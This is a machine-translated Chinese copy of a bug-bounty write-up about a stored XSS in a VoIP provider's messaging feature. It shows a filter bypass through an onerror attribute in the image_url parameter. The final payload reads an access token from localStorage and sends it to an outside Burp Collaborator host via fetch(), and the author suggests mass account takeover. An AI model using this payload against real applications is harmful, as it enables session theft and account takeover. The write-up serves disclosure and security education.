









# 组织接管存储的 XSS

> 原文：<https://infosecwriteups.com/stored-xss-to-organisation-takeover-6eaaa2fdcd5b?source=collection_archive---------4----------------------->

TL；DR:这是一篇关于我如何绕过 XSS 滤波器，从本地存储器中窃取会话令牌，从而接管一家领先的 VoIP 公司的文章。

# 介绍

> 我一直喜欢深入事物。XSS 不仅仅是找到警报盒，它的意义远不止于此。绕过过滤器是发现可怕的 XSS 臭虫的重要部分。我们应该总是试图将 XSS 病毒升级为账户接管。

这是一个私人项目。我尝试了所有不同的功能&文本功能引起了我的注意。通过此功能，我们可以向组织用户发送带有附件的文本。我开始发送一条附有图片的文本，并捕获了打嗝套件中的所有流量。在点击发送按钮时，应用程序首先请求在云存储上上传图像，然后请求带有参数 text、image_url 和其他重要参数的补丁，

我直接去追 **image_url** 。我试着把 image_url 从最初上传的图片 url 改成一个随机的&服务器接受了它。

修补程序请求中易受攻击的参数“image_url”

并且 URL 被反映为与标签和`s1600"`字符串连接在一起

image_url 的标记中的 HTML 反射

我立刻变得兴奋起来，开始测试端点

1.  首先，我在 Image_url 参数中放了一个不同的图像 URL。服务器接受了它
2.  我在 image_url 参数中放了一个非 URL 值，它也被接受了。
3.  现在我马上尝试了`javascript:alert()`，但是 javascript 在前端把它改成了`javascript:void(0)`。
4.  我试图摆脱引号，但这是安全编码。
5.  我试图用黑盒方法破坏过滤器，但没有成功。

真正让我好奇的一件事是为什么字符串`s1600`在前端连接到 image_url 值？所以我寻找负责这个的 javascript。在分析 javascript 时，在 image_url 参数中的一个或多个字符后添加双空格会在前端创建下面提到的 HTML 内容。

HTML 反射

之后，我在 image_url 参数中尝试了多个有效载荷。

有效载荷 1

`***image_url="xxx test"***`

在 HTML 中的反映就像

``

有效载荷 2

`***image_url=*"xxx onerror=test"**`

在 HTML 中的反映就像

``

有效载荷 3

`***image_url=*"xxx onerror=alert(document.cookie);"**`

在 HTML 中的反映就像

``

**我在:D 页面得到了一个漂亮的警告框**

XSS 警报箱

为了避免重复，我立即将报告发送给相关程序，而没有为帐户接管创建实际的 POC。ASE 团队的回复是

现在我得想办法接管这个账户。首先，我想到通过 XSS 绕过 CSRF 保护来利用任何电子邮件更改功能。尽管如此，我看到影响是有限的，因为管理帐户只能改变电子邮件 id。在经历了不同的请求之后，我看到该应用程序在基于 cookies 的认证之上也使用了不记名令牌。应用程序以 JSON 格式在本地存储中存储不记名令牌。

# 局部存储器

本地存储是浏览器用来存储键/值对的 Web 存储 API。它为每个域(原点)维护一个单独的存储区域。即使浏览器关闭，数据仍保留在本地存储中。可以通过 Window.localStorage 对象访问本地存储。我们还可以在开发工具中检查本地存储。

我们可以通过 javascript 读取本地存储。若要检索密钥，请使用。`getItem()`。

`localStorage.getItem('Key')`

我们可以用`JSON.parse`来解析这个键的 JSON 值

`json.parse(localStorage.getItem('Key')).KEYNAME`

**从本地存储器窃取访问令牌**

现在，您已经了解了我们如何从本地存储中访问数据。就很容易理解最终的有效载荷。如前所述，应用程序将无记名令牌存储在本地存储中。让我来分解我最后的有效载荷。

1.  我首先从本地存储器
    `token=JSON.parse(localStorage.getItem('KEYNAME')).access_token`中检索 access_token
2.  我的 Burp 协作者 URL 的串联令牌
    `url=https://g0h5el9lym4iht5u2co4ovymud03os.burpcollaborator.net/'token`
3.  向 URL 发送获取请求以接收令牌
    `fetch(url)`

参数 image_url 的最终有效负载:

`"xxx onerror=token=JSON.parse(localStorage.getItem('KEYNAME')).access_token,url=https://g0h5el9lym4iht5u2co4ovymud03os.burpcollaborator.net/'+token,fetch(url);"`

它在 HTML 中反映为

``

已收到打嗝请求。

# 让攻击更上一层楼

该 VoIP 提供商提供了一系列联系号码。我们可以通过将消息有效负载发送到一个完整的数字序列来进行批量帐户接管&在批量级别获得访问令牌。

你可以在推特上关注我。